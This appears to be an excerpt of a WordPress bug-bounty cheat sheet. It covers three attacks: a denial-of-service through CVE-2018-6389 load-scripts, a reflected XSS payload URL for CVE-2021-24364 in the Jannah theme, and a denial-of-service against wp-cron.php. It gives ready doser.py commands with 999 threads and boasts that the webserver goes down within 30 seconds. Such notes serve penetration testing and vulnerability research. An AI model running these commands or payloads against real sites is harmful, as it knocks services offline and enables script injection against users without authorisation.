 [loadsxploit](https://gist.github.com/remonsec/4877e9ee2b045aae96be7e2653c41df9)

### Exploit

You can use any Dos tool i found Doser really fast and it shut down the webserver within 30 second

[Doser](https://github.com/quitten/doser.py)

```
python3 doser.py -t 999 -g 'https://site.com/fullUrlFromLoadsxploit'
```

### References

[H1 Report](https://hackerone.com/reports/752010)

[CVE Details](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6389)

[Blog Post](https://baraktawily.blogspot.com/2018/02/how-to-dos-29-of-world-wide-websites.html)

# CVE-2021-24364

The Jannah WordPress theme before 5.4.4 did not properly sanitize the options JSON parameter in its tie_get_user_weather AJAX action before outputting it back in the page, leading to a Reflected Cross-Site Scripting (XSS) vulnerability.

### Detection and Exploit

-   Replace <Your_WP-Site-here> to your WP-site
    <Your_WP-Site-here>/wp-admin/admin-ajax.php?action=tie_get_user_weather&options=%7B%27location%27%3A%27Cairo%27%2C%27units%27%3A%27C%27%2C%27forecast_days%27%3A%275%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3Ecustom_name%27%3A%27Cairo%27%2C%27animated%27%3A%27true%27%7D
-   Wait for the pop-up!

### Reference

[NVD](https://nvd.nist.gov/vuln/detail/CVE-2021-24364)

# WP Cornjob DOS

This is another area where you can perform a DOS attack.

### Detection

-   visit site.com/wp-cron.php
-   You will see a Blank page with 200 HTTP status code

### Exploit

You can use the same tool Doser for exploiting this

```
python3 doser.py -t 999 -g 'https://site.com/wp-cron.php'
```
